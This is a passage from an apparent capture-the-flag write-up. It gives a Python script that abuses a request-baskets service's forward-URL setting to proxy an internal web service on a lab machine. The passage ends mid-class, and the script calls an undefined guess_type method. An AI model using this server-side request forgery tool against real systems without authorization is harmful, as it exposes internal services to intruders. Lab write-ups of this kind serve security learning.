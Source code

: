 You may run into the error of the CSS and JS not working when you visit the proxied service. To fix this run the following python script and fix the variables at the top to reflect your basket name and token. *This script was taken from Fred K.*

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import requests
import mimetypes
import posixpath 

basket = 'pwnd'  
path = '/'  
ip = '10.10.11.224'  
token = 'KWtVsWniXGUdzAjx3tOYTSmzrfCbdSGa2vo23HPKaiTd' 

def change_forward_url(path):
    url = f'http://' + ip + ':55555/api/baskets/' + basket 
    headers = {
        'Authorization': token
    }
    data = {
        'forward_url': 'http://127.0.0.1:80' + path,
        'proxy_response': True,
        'insecure_tls': True,
        'expand_path': True,
        'capacity': 250
    }

    response = requests.put(url, headers=headers, json=data)

    if response.status_code == 204:
        print('Changing forward URL - http://127.0.0.1:80', path)
        return True
    else:
        print('An error occurred while executing the request.')
        print('Status code:', response.status_code)
        print('Response text:', response.text)
        return False

def get_request(path):
    change_forward_url(path)
    url = f'http://' + ip + ':55555/' + basket 

    response = requests.get(url)

    if response.status_code == 200:
        print('Geting get request',path)
        return response
    else:
        print('An error occurred while executing the GET request.')
        print('Status code:', response.status_code)

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        path = self.path
        html = get_request(path)
        content_type = self.guess_type(path)

        self.send_response(200)
        self.send_header('Content-type', content_type)
        self.end_headers()
        self.wfile.write(html.content)

```